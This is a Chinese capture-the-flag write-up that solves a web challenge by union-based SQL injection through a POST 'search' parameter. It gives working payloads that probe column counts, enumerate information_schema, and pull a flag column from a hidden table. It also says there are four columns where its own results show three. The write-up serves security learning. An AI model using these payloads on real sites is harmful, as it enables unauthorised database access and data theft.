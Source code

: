 # NewsCenter

题目有一个 `search box`. 开始尝试没发现 `URL` 上有任何变化. 使用 `Burp Suite` 发现本题用 `POST` 方式传送变数 `search`.

直觉告诉我这题应该是 `SQL injection`. 尝试 `search=hello` 返回数据, 但 `search=hello'` 返回 `500 Internal Server Error`. 应该是符号 `'` 被过滤了. 尝试几次发现本题的 `comment` 符号是 `#`, 因为 `search=hello'#` 页面返回正常, 而 `search=hello'--` 和一些别的尝试都返回错误.

数据库有四个 `columns`:

```
search=hello'+order+by+1# 页面正常
search=hello'+order+by+2# 页面正常
search=hello'+order+by+3# 页面正常
search=hello'+order+by+4# 页面返回错误
```

尝试哪个 `columns` 可以显示数据:

```
search=hello'+union+select+1,2,3# 
```

发现 `columns 2 和 3` 可以显示数据.

读取 `table name`:

```
search=hello'+union+select+1,table_name,3+from+information_schema.tables#
```

页面返回很多数据库, 观察一下, 怀疑是 `secret_table`.

找 `secret_table` 的 `column_name`:

```
search=hello'+union+select+1,column_name,3+from+information_schema.columns+where+table_name='secret_table'#
```

果然有一个 `column` 是 `fl4g`. 最后就只是拿 `flag`:

```
search=hello'+union+select+1,fl4g,3+from+secret_table#
```

